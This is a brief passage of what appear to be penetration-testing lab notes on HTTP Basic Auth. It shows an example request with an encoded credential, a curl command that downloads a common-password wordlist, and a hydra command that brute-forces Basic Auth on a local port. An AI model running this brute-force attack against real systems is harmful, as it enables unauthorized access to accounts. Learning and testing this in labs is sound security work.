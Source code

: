 Receive a 401 Unauthorized status

** Example of Basic Auth get request
```shell-session
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

## Exploiting Basic Auth with Hydra
```shell-session
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
```
```shell-session
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
```
